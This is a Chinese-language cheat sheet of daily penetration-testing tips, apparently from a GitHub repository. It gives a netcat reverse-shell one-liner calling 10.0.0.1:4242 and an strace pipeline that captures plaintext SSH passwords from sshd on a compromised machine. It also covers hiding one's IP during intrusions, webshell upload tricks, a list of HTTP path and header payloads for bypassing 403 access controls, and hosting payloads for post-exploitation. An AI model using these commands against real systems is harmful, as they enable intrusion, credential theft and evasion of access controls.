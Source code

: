 **2021-1-4**

```
每日小知识
1. cAdvisor 是Google出品的用于监控Docker容器的服务，渗透时遇到这个服务基本上是存在容器环境
2. 新版 kali 2020 版后使用 root 账号默认不给密码，可以直接进行修改 : sudo passwd root
3. 在linux中安装一些组件的依赖时会有比如 python-dev 和  python-devel 的区别，这代表不同的发行版本，redhat系是 devel ，debian系是dev
4. nc 具有多个版本,比如:traditional、openbsd、ncat
- traditional 最老的版本,支持最基本的功能
- openbsd 安全版本,回弹要用一大段命令
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
- ncat 新版本,重构了旧版的代码并支持了许多新功能,debian系列发行版下通过以下命令进行安装配置
    apt install -y ncat
    update-alternatives --set nc /usr/bin/ncat
```

# 每日小知识[100分]

分享一个小技巧，在linux下走代理大家一般使用proxychains
在windows下命令行走代理，可以这样配置
```
    - cmd
        set http_proxy=http://127.0.0.1:1080 & set https_proxy=http://127.0.0.1:1080
```
```
    - powershell

        $Env:http_proxy="http://127.0.0.1:1080";$Env:https_proxy="http://127.0.0.1:1080"

```

# 每日小知识[100分]

- MSF 和 CS 中 Stage 与 Stageless 的区别
    - Stage ： 先传一个 shellcode，然后回连端口，加载恶意 metsrv，然后再请求 stdapi 于 priv，进行上线
    - Stageless ： 将 shellcode、metsrv、stdapi、priv 打包，一次性传完
    - 如果想让 msf 直接回弹到 NC，那么必须要用 stageless

- 判断目标主机是不是虚拟机、容器
    - windows
        - cmd : systeminfo
        - Powershell : get-wmiobject win32_computersystem | fl model
    - linux
        ```
        lshw -class system | grep -i VM & grep -i virtual
        dmesg | grep -i VM & grep -i virtual
        dmidecode -s system-product-name
        ls /tmp
        systemd-detect-virt
        virt-what
        ls -alh /.dockerenv
        cat /proc/1/cgroup
        ```


# 每日小知识[100分]
- 当我们拿下 windows 机器时可以通过抓内存中的密码进行横向，但 linux 却不可能抓到内存中的密码，但是 Debian 系列下的 linux 系统可以通过监听 sshd 进程的数据抓取出明文密码，比如你拿下了一台管理员机器，上面由 xshell，你可以手动开一个监听，在开一个登录，监听的窗口上就抓出密码了
```
    strace -xx -fp `cat /var/run/sshd.pid` 2>&1| grep --line-buffered -P 'write\(\d, "\\x00' | perl -lne '$|++; @F=/"\s*([^"]+)\s*"/g;for (@F){tr/\\x//d}; print for @F'|grep --line-buffered -oP '.{8}\K([2-7][0-9a-f])*$'|grep --line-buffered -v '^64$'|perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```



# 每日小知识[100分]

- 渗透时尽量不要暴露自己的IP地址，挂代理是必须的
    - linux下要查看自己终端是否走代理可以 curl https://ifconfig.me/ 看下返回的IP地址
    - windows就直接访问 https://ifconfig.me/ 即可

- linux下代理不用多说,proxychains-ng，windows下推荐用Proxifier


# 每日小知识[100分]

- 渗透时遇到某些上传点未作过滤，但负载均衡做了过滤后缀名的情况，可以上传 webshell 命名为 index.php，然后访问 xxx.com/xxx/upload, 尝试 bypass 反代的策略
- 当渗透时遇到了 403 或者 302、401 的拒绝访问，不要怕，多 FUZZ 几次，从 HTTP Header 层面 bypass
    ```bash
    GET /admin HTTP/1.1
    Host: web.com   # ===> 403

    GET /anything HTTP/1.1
    Host: web.com
    X-Original-URL: /admin  # ===> 200

    GET /anything HTTP/1.1
    Host: web.com
    Referer: https://web.com/admin  # ===> 200

    GET https://qq.com HTTP/1.1
    Host: web.com   # ===> SSRF
    /admin/panel    # ===> 403
    /admin/monitor  # ===> 200

    /admin/monitor/;panel   # ===> 302
    web.com/admin   # ===> 403

    web.com/ADMIN       # ===> 200
    web.com/admin/      # ===> 200
    web.com/admin/.     # ===> 200
    web.com//admin//    # ===> 200
    web.com/./admin/./  # ===> 200
    web.com/./admin/..  # ===> 200
    web.com/%2f/admin/  # ===> 200
    web.com/admin.json  # ===> 200(ruby)

    web.com/%2e/admin   # ===> 200
    web.com/%252e/admin # ===> 200
    web.com/%ef%bc%8fadmin  # ===> 200

    web.com/admin       # ===> 302
    web.com/admin..;/   # ===> 200
    http://web.com/admin    # ===> 403
    https://web.com/admin   # ===> 200
    ```


  #  每日小知识[100分]
linux使用过程中经常出现安装软件包失败的问题,很多情况是遇到了锁,可以直接删除(不建议生产环境下使用)
- debian系
    报错：无法获得锁 /var/lib/apt/lists/lock - open (11: 资源暂时不可用)
    ```
    rm -rf /var/cache/apt/archives/lock
    rm -rf /var/lib/dpkg/lock-frontend
    rm -rf /var/lib/dpkg/lock
    rm /var/lib/dpkg/lock
    rm /var/lib/apt/lists/lock
    ```
- redhat系
    报错：/var/run/yum.pid 已被锁定,PID 为 xxxx 的另一个程序正在运行.
    ```
    rm -f /var/run/yum.pid 2> /dev/null
    ```
- 特立独行的 Fedora
    报错：Waiting for process with pid <xxx> to finish.
    ```
    rm -f /var/cache/dnf/metadata_lock.pid 2> /dev/null
    ```


# 每日小知识[100分]

1. 我们在后渗透过程中经常要传 payload 到目标，临时起的文件服务器都是 python 一条命令的事
- Python 2.x
    ```bash
    python -m SimpleHTTPServer 8000
    # 在当前目录起个 8000 端口的 HTTP 服务
    ```
- Python 3.x
    ```bash
    python -m http.server 8000
    ```
- 推荐一个可以加密码的，一条命令python服务器模块
    ```
    pip3 install updog
    updog --port 8888 --password test1234
    ```

2.信息收集小技巧，仔细观察目标页面的js路径，多找几个js目录，专门用js字典进行爆破，获取的js脚本列表，再调用工具去匹配路径和凭证。
